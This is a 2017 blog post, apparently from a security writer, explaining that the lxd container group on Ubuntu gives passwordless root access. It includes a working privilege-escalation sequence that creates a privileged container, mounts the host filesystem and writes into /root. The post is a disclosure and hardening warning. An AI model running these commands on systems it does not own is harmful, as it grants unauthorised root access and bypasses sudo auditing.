 ```yaml
---
layout: post
title:  "Privilege Escalation via lxd"
date:   2017-09-27 00:00:00 +0100
categories: [lxd]
description: A super simple way to escalate if you find yourself a member of the lxd group
---
```


LXD is Ubuntu's container manager utilising linux containers.  It could be considered to act in the same sphere as docker, 

The lxd group should be considered harmful in the same way the [docker](https://www.andreas-jung.com/contents/on-docker-security-docker-group-considered-harmful) group is.  Under no circumstances should a user in a local container be given access to the lxd group.  This is because it's entirely trivial to exploit.  

Firstly, I'd check if your user is a member of this group, because chances are that if you've installed it and are a sudoer, that you are.  Upon installation, lxd automatically adds every user to the lxd group.  Whilst this could be considered okay, considering that a sudoer automatically has root access, it forgets that sudo has auditing capabilities in place, and does require a password to perform any actions that would be required by root.  In fact, merely installing lxd is equivalent to adding the following in your sudoers file.

{%highlight bash%}
admin    ALL=NOPASSWD: ALL
{%endhighlight%}

If someone gains access to the admin account then immediately they have full root access without a password.  Consider an ssh private key escaping into the wild or an outdated service running under this user, and suddenly an attacker who still hasn't cracked the admin accounts password has full root access, all because you installed lxd. 

{%highlight bash%}
ubuntu@ubuntu:~$ cat /etc/passwd | grep 1000 
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash 
ubuntu@ubuntu:~$ cat /etc/group | grep ubuntu 
adm:x:4:syslog,ubuntu 
cdrom:x:24:ubuntu 
sudo:x:27:ubuntu 
dip:x:30:ubuntu 
plugdev:x:46:ubuntu 
lpadmin:x:113:ubuntu 
ubuntu:x:1000: 
sambashare:x:128:ubuntu 
ubuntu@ubuntu:~$ sudo su 
[sudo] password for ubuntu:  
root@ubuntu:/home/ubuntu# apt-get install lxd 
----SNIP----
root@ubuntu:/home/ubuntu# cat /etc/passwd | grep 1000 
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash 
root@ubuntu:/home/ubuntu# cat /etc/group | grep ubuntu 
adm:x:4:syslog,ubuntu 
cdrom:x:24:ubuntu 
sudo:x:27:ubuntu 
dip:x:30:ubuntu 
plugdev:x:46:ubuntu 
lpadmin:x:113:ubuntu 
ubuntu:x:1000: 
sambashare:x:128:ubuntu 
lxd:x:129:ubuntu 
{%endhighlight%} 

I'm not arguing against the existence of the lxd group, merely that it increases your attack surface without notifying the user at all.  Discovering this was down to a user not realising the power this group gave their account, and whilst sudo privilege was removed, lxd access was not. 

Exploiting
-----------
So it's all good me harping on about the security risks but lets see it in action.  I only found this thanks to [#2003](https://github.com/lxc/lxd/issues/2003)

{%highlight bash%}
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash 
{%endhighlight%}

Here we have created an lxc container, assigned it security privileges and mounted the full disk under `/mnt/root`.  

{%highlight bash%}
ubuntu@ubuntu:~$ lxc exec test bash 
root@test:~# cd /mnt/root 
root@test:/mnt/root# ls 
bin   cdrom  etc   initrd.img  lib64       media  opt   root  sbin  srv  tmp  var 
boot  dev    home  lib         lost+found  mnt    proc  run   snap  sys  usr  vmlinuz 
root@test:/mnt/root# cd root 
root@test:/mnt/root/root# ls 
root@test:/mnt/root/root# touch ICanDoWhatever 
root@test:/mnt/root/root# exit 
exit 
ubuntu@ubuntu:~$ cat /root/ICanDoWhatever 
cat: /root/ICanDoWhatever: Permission denied 
ubuntu@ubuntu:~$ sudo su 
root@ubuntu:/home/ubuntu# cat /root/ICanDoWhatever 
root@ubuntu:/home/ubuntu# ls /root 
ICanDoWhatever 
root@ubuntu:/home/ubuntu#  
{%endhighlight%}

So now see how we haven't once typed our password in or escalated privileges manually.  We could even remove ourselves from sudoers and do all this, making root escalation trivial.  Lesson learnt, use the lxd group with care.

